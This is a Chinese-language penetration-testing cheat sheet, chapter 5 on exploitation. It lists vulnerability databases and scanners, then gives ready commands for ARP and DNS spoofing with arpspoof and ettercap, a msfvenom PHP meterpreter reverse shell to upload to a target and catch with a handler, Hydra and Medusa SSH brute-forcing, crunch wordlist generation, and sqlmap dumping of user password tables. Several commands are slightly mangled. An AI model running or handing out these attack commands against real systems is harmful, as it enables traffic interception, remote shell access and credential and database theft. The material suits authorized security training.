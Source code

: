 # 五、漏洞利用

## 5.1 漏洞数据库

**1） 漏洞数据库** CVE (Common Vulnerabilities & Exposures）

- https://cve.mitre.org/
- https://www.cvedetails.com/
- https://www.cnvd.org.cn/
- https://nox.qianxin.com/vulnerability

**2） 漏洞利用工具集**

- http://wiki.peiqi.tech
- https://www.exploit-db.com
- github
- pocsuite  （收录框架）
- msf

```bash
msfconsole                      #进入
searchsploit ubuntu 16.04       #搜索ubuntu16.04漏洞
searchsploit wordpress          #搜索wordpress漏洞
cd /usr/share/exploitdb/exploits/linux/local
#漏洞利用脚本位置
```



##  5.2 漏洞扫描工具

**商用**

- Appscan
- Nessus
- OpenVAS

**免费**

- goby
- Burp
- https://github.com/k8gege/Ladon

**国产商业**

- 深信服TSS安全评估工具
- 绿盟绿盟WEB应用漏洞扫描系统(WVSS)绿盟远程安全评估系统(RSAS)
- 启明天镜脆弱性扫描与管理系统
- 安恒Web应用弱点扫描器(MatriXay明鉴远程安全评估系统)
- 奇安信网神SecVSS.3600漏洞扫描系统
- 盛邦安全Web漏洞扫描系统(RayWVS)
- 远程安全评估系统(RayVAS)
- 斗象科技ARS智能漏洞与风险检测
- 长亭科技洞鉴(X-Ray)安全评估系统四叶草安全全时风险感知平台



## 5.3 ARP欺骗攻击

```bash
arpspoof -i eth0 -t 192.168.1.103 192.168.1.1
#欺骗目标主机我是网关，发出数据不会经过网关，会直接发给我们
arpspoof -i eth0 -t 192.168.1.1 192.168.1.103
#欺骗网关我是目标主机，接收数据经过我们
echo 1 > /proc/sys/net/ipv4/ip_forward
#开启数据转发，默认0是不转发，不转发目标主机会断网
driftnet
#运行数据获取工具
```

```bash
#用ettercap工具，dns欺骗
#修改ettercap配置
vim /etc/ettercap/etter.dns
#添加两条解析记录,所有网站全部解析到iseeu.eu.org
* A 192.168.1.101
* PTR 192.168.1.101
#打开ettercap图形化工具
ettercap -G  
- 选择网卡
- hosts - scan for hosts - hosts list 发现局域网主机，打开列表
- 将网关add to target1 - 将目标主机add to target2
- 打开MITM - 选择ARP poisoning （ARP欺骗） - 勾上第一个
- Plugins - Manage plugins - dns_spoof （dns欺骗）
- 开始
```



## 5.4 msf反弹连接获得shell

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.0.22 lport=7777 -o shell.php
#指定攻击者ip，指定端口，生成shell.php文件（不需要进入msf）
#打开文件，去掉前面两个注释字符，通过漏洞上传目标服务器
msfconsole                     # 进入
use exploit/multi/handler      # 使用侦听模块
set payload php/meterpreter/reverse_tcp
#设置payload php的tcp反弹连接（要与生成的一致）
set lhost 192.168.0.22         # 设置ip
set lport 7777                 # 设置端口
exploit                        # 利用
```



## 5.5 Burp Suite暴破web密码

1） 在靶场登录，用Burp Suite抓包,发送到intruder

[![x8ixqx.png](https://s1.ax1x.com/2022/10/07/x8ixqx.png)](https://imgse.com/i/x8ixqx)

2）删除所有变量，选种密码添加变量

[![x8FNwV.png](https://s1.ax1x.com/2022/10/07/x8FNwV.png)](https://imgse.com/i/x8FNwV)

3） 进入payloads，添加密码字典，开始破解

[![x8FIld.png](https://s1.ax1x.com/2022/10/07/x8FIld.png)](https://imgse.com/i/x8FIld)

4） 完成，相应结果不一样

[![xtCj6H.png](https://s1.ax1x.com/2022/10/10/xtCj6H.png)](https://imgse.com/i/xtCj6H)



## 5.6 Hydra暴力破解linux密码

```bash
hydra -L username.txt -P password.txt 192.168.0.22 ssh
#指定用户字典、密码字典、ip和协议
medusa -M ssh -h 192.168.0.22 -u root -P password.txt
#效果类似hydra
```

```bash
msfconsole    #msf也可以使用
use auxiliary/scanner/ssh/ssh login
set RH0STS192.168.142.66
set PASS FILE password.txt
set USER FILE username.txt
exploit
```

> hydra图形化工具xhydra

[![xzXK6U.png](https://s1.ax1x.com/2022/11/09/xzXK6U.png)](https://imgse.com/i/xzXK6U)

[![xzXJt1.png](https://s1.ax1x.com/2022/11/09/xzXJt1.png)](https://imgse.com/i/xzXJt1)

[![xzX57j.png](https://s1.ax1x.com/2022/11/09/xzX57j.png)](https://imgse.com/i/xzX57j)

**字典生成**

```bash
crunch 2 4 > 1.txt   #指定生成2-4位英文字母组合
crunch 7 7 -t admin%% > 2.txt #指定7位admin后面为两位数字的组合
#使用crunch库hex-lower模板生成6位组合
crunch 6 6 -f /usr/share/crunch/charset.lst hex-lower -o 3.txt
crunch 6 6 0123456789 -o 4.txt #指定数字生成6位数字典
crunch 3 3 pdd 1611 0101 > 5.txt #指定这三个字符串的随机组合生成字典
min 设定最小字符串长度（必选）
max 设定最大字符串长度（必选）
-o 将生成的字典保存在指定的文件
-t 指定密码输出格式
-p 指定元素组合
% 代表数字
^ 代表特殊符号
@ 代表小写字母
, 代表大写字母
```



## 5.7 sqlmap渗透数据库

```bash
#确定网站存在注入后
sqlmap-u "域名" --dbs
#查询当前用户下的所有数据库
sqlmap -u "域名" --level=5 --risk=3--dbms=mysql-D "security"--tables
#获取数据库中的表名
sqlmap -u "域名" --level=5 --risk=3--dbms=mysql-D "security"-T "users"--columns
#获取表中的字段名
sqlmap-u "域名" --level=5 --risk=3--dbms=mysql -D "security"-T "users"-C password,username"--dump
#获取字段内容
```

